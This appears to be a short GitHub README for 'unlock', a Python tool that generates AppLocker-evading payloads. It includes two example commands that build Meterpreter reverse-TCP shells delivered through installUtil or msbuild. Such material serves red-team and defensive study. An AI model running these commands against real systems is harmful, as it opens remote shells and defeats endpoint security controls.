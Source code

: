 # unlock
Microsoft Applocker evasion tool

Unlock aims to give an easy interface for generating payloads which can bypass MS applocker restriction.
This tool is heavily based on subtee work.

Examples:
python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil
python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild
